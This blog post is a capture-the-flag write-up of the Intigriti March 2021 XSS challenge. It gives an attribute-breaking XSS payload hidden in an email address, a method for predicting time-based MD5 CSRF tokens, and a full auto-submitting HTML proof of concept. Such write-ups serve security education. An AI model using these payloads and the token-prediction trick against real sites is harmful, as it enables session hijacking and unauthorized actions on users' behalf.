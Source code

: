 ```yaml
---
layout: post
title:  "Write-up: Intigriti March 2021 XSS Challenge"
date:   2021-03-28 23:00:00 +0000
categories: security
---
```


The following is my write-up for the [March 2021 Intigriti XSS challenge](https://twitter.com/intigriti/status/1373971576564154369).

![header](/assets/intigriti-0321/intro.png)

## Let's Get Started...

The challenge takes place on a single web page, though this one appears more dynamic than those I've seen from Intigriti in the past.

The stand-out feature of the page is a facility to store notes.

![notes](/assets/intigriti-0321/notes.png)

A few tests show that the notes section will remember any input saved to it, and that input seems to be escaped, preventing initial injection attempts.

Interestingly, the source code reveals the notes field is not a traditional `input` or `textarea` tag, but is instead using the `contenteditable` attribute.

```html
<p id="notes-display" class="card-content" contenteditable="true">note goes here</p>
```

The [`contenteditable` attribute](https://html.spec.whatwg.org/multipage/interaction.html#attr-contenteditable) essentially allows the user to modify the contents of an HTML element directly in the browser. This hints that the content that can be included here could be <i>richer</i> than simple plain text...

## Vulnerability 0x01: XSS

Some insight can be gained by doctoring the parameter names to make them arrays instead (`csrf` becomes `csrf[]`), such as:

```bash
curl -s -H 'Cookie: PHPSESSID=2cd32827b0ac21661fb4ae0d1d01bc05;' https://challenge-0321.intigriti.io/ --data-raw 'csrf[]=4b83d5b395d31ec72883368383477f1b&notes=hello'
<br />
<b>Warning</b>:  strcmp() expects parameter 2 to be string, array given in <b>/var/www/html/index.php</b> on line <b>7</b><br />
<br />
<b>Warning</b>:  Cannot modify header information - headers already sent by (output started at /var/www/html/index.php:7) in <b>/var/www/html/index.php</b> on line <b>13</b><br />

curl -s -H 'Cookie: PHPSESSID=c3c310b4805be2b87f6d7b125876ecbd;' https://challenge-0321.intigriti.io/ --data-raw 'csrf=9b114d8556cad469ce80063805a8e4ac&notes[]=hello' | grep Warning
<b>Warning</b>:  htmlspecialchars() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>94</b><br />
```

Doing this to the `notes` parameter reveals the output is run through the [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) PHP function, which should prevent XSS attempts on this field, unless there is further functionality that has an effect on the output.

Luckily, experimenting with some different input text reveals some extra, hidden functionality. Specifying a link, such as `https://evil.com` results in the site adding markup to the output:

```html
<p id="notes-display" class="card-content" contenteditable="true"><a href="https://evil.com" target="_blank">https://evil.com</a></p>
```

This also works with email addresses. After a lot of reading (and a lot of failing) at this point, I eventually resorted to reading [RFC 2822](https://tools.ietf.org/html/rfc2822). The way the vast majority of the internet handles email address validation is apparently very wrong, as the document reveals email addresses can in fact contain a variety of non-alphanumeric characters.

For example, the following email address is technically valid:

```
"What the flip"@xss.com
```
 
As the email address appears inside the `href` attribute of an `<a>` tag, is it possible to break out the double quote delimited attribute using the quotes in such an email address?

Well, yes.

The following payload breaks out of the attribute and adds an `onmouseover` event to the anchor, meaning an XSS is triggered when the user mouses over it.

```
"onmouseover=alert('flag{THIS_IS_THE_FLAG}');x="@hax.com
```

This works well, but the challenge is far from over. This is currently only a self-XSS, as the payload has had to be manually inserted to trigger it.

An HTML form can be crafted that submits to the challenge site and triggers the above case, but this seems to result in an HTTP 403...

## Vulnerability 0x02: CSRF Bypass

It looks like the page has CSRF protection built in. The page generates a special token and stores it in a hidden form input. When the form is submitted, the server checks this token matches in order to ensure the form hasn't been submitted by a malicious site.

```html
<input type="hidden" name="csrf" value="12aa2cfb4c861e1c302ce734f468dc7b"/>
```

In order for our malicious form to exploit the XSS vulnerability, we need to be able to supply a valid CSRF token.

There's an additional clue near the end of the HTML that can help us out:

```html
<!-- page generated at 2021-03-23 20:36:11 -->
```

This comment must be here for a reason, and I took it as a hint that the CSRF token is time based. 

A common method for generating CSRF tokens is to create a cryptographic hash of the current timestamp, though it is better practice to use random input, or to at least salt the hash.

In this case, it's possible to predict the CSRF token by producing an MD5 hash of the current unix timestamp.

Loading the page gives us:

```html
<input type="hidden" name="csrf" value="12aa2cfb4c861e1c302ce734f468dc7b"/>

... snip ...

<!-- page generated at 2021-03-23 20:36:11 -->
```

Converting the time mentioned above to a unix timestamp gives `1616531771`. This can be achieved with the Javascript:

```js
Date.parse('2021-03-23 20:36:11')/1000
```

Hashing this value gives us a value which exactly matches the CSRF token in the form:

```bash
$ echo -n 1616531771 | md5sum
12aa2cfb4c861e1c302ce734f468dc7b  -
```

This means we can predict CSRF tokens simply by knowing the server time.

## The Solution

Putting all of this together gives us the following proof of concept:

```html
<html>
   <body>
      <iframe style="width:1px;position:fixed;left:-1px;" src="https://challenge-0321.intigriti.io/"></iframe>
      <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/core.js"></script>
      <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/md5.js"></script>
      <script>
         var ts = 5 + Math.round((new Date()).getTime()/1000);
         var passhash = CryptoJS.MD5(ts+'').toString();
         setTimeout(function(){
           document.getElementById("csrf").value = passhash;
           document.getElementById("payload").value = "\"onmouseover=alert('flag{THIS_IS_THE_FLAG}');x=\"@hax.com";
           document.getElementById("send").submit();
         }, 250);
      </script>
      <form method="POST" action="https://challenge-0321.intigriti.io/" id="send">
         <input type="hidden" name="csrf" id="csrf" value=""/>
         <input type="hidden" id="payload"  name="notes" value=""/>
      </form>
   </body>
</html>
```

The PoC loads the target site in an iframe, causing a CSRF token to get generated. It then takes the current timestamp and creates an MD5 hash of it, hopefully creating an identical CSRF token.

As you can see, I had to add 5 seconds to the current timestamp, as my local time appeared to be 5 seconds behind the time of the target server.

Then the XSS payload we discovered earlier is combined with the resultant hash and submitted in a form to the target challenge server.

This results in a working XSS once the user mouses over the link.

![success](/assets/intigriti-0321/success.png)

Success! Thanks Intigriti for another fun challenge!
